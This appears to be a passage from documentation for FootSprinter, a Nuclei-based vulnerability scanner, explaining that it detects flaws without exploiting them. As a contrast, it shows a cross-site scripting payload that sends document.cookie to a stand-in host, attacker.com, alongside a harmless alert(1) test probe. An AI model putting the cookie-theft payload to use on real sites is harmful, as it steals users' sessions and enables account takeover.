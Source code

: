 - ❌ **NO exploitation of vulnerabilities**
- ❌ **NO password cracking or brute-forcing**
- ❌ **NO SQL injection attacks**
- ❌ **NO XSS payload execution**
- ❌ **NO file uploads or modifications**
- ❌ **NO denial of service attempts**
- ❌ **NO data exfiltration**
- ❌ **NO unauthorized access attempts**
- ❌ **NO malware deployment**
- ❌ **NO system compromise**

---

## 🔍 How Nuclei Scanning is Safe

### Nuclei Detection vs Exploitation

**What Nuclei Does (SAFE):**
```
✓ Sends HTTP requests to check for vulnerability patterns
✓ Analyzes responses for known vulnerability signatures  
✓ Identifies misconfigurations
✓ Detects outdated software versions
✓ Checks for exposed sensitive files
```

**What Nuclei Does NOT Do:**
```
✗ Execute malicious payloads
✗ Attempt privilege escalation
✗ Modify or delete data
✗ Bypass authentication
✗ Extract sensitive information
```

### Example: XSS Detection

**Unsafe Exploitation Tool Would:**
```javascript
// Inject payload and steal cookies
<script>fetch('attacker.com?c='+document.cookie)</script>
```

**FootSprinter/Nuclei Does:**
```
// Only checks if XSS vulnerability exists
Sends: test<script>alert(1)</script>
Checks: Does the response reflect unescaped input?
Result: Reports "XSS vulnerability detected"
Action: STOPS - Does not execute or steal data
```

---
